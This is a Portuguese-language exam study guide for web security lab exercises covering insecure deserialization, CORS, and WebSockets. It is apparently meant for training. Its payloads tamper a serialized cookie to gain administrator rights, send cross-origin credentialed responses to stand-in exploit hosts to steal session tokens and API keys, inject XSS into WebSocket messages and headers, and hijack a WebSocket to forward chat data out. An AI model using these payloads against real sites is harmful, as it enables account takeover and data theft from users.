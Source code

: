 # Outros

Aqui temos um compilado de vulnerabilidades que provavelmente não estarão no seu exame, mas é bom saber para evitar surpresas.

Possibilidade: $${\color{lightgreen}Baixa}$$.

<br>

## Laboratórios

## Insecure Deserialization

Essa vulnerabilidade tem grande chance de aparecer na terceira etapa, mas na segunda é mais raro de acontecer.

Caso ela apareça, será no sentido do laboratório abaixo.

<br>

**Modifying Serialized Data Types**

Pegue o Cookie em base64, decode-o e altere o username para "administrator".

Troque o tipo do parâmetro `access_token` de "s" para "i":
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

<br>

### CORS

**Basic Origin Reflection**
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

<br>
<br>

**CORS vulnerability with trusted insecure protocols**

Identifique no código-fonte que os detalhes da conta são requisitados através de uma request AJAX e que contém o cookie de sessão do usuário na resposta.

![image](https://github.com/user-attachments/assets/6caa6278-1879-4f4d-8ee4-e17c1598b7bd)

Teste se a aplicação permite a interação com subdomínios. Se a resposas incluir o header `Access-Control-Allow-Origin` o Origin refltido, o CORS está vulnerável.
```
Origin: http://subdomain.TARGET.NET
```

Em seguida, você precisa achar o XSS no parâmetro `productId` que está subdomínio que o lab contém.

![image](https://github.com/user-attachments/assets/68aa4bd4-cf1d-4ac6-a864-9b832daf4184)

Coloque o código abaixo no servidor de exploit e entregue a vitima para roubar o session token e a chave de API.
```
<script>
    document.location="http://stock.TARGET.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://TARGET.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://EXPLOIT.NET/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

<br>
<br>

**Null Origin Trusted**

Identifique a configuração insegura do CORS ao enviar o header `Origin: null` e chechar que a resposta reflete esse valor.

O payload abaixo pode funcionar para obter a API da conta do administrator:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://TARGET.net/account_api/?EPOCHtime=1679134272000',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://EXPLOIT.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

<br>

### Web Sockets

Aperece na página de **Live Chat**.

<br>

**Manipulating WebSocket Messages to Exploit Vulnerabilities**

Escreva algo no Live Chat. Vá para a aba WebSocket History, selecione a request e envie para o Repeater.

Altere a mensagem com um payload malicioso:
```
<img src=123 onerror=alert()>
```

<br>
<br>

**Manipulating the WebSocket Handshake to Exploit Vulnerabilities**
```
X-Forwarded-For: 1.1.1.1
<img src=1 oNeRrOr=alert`1`>
```

<br>
<br>

**Cross-site WebSocket Hijacking**
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```



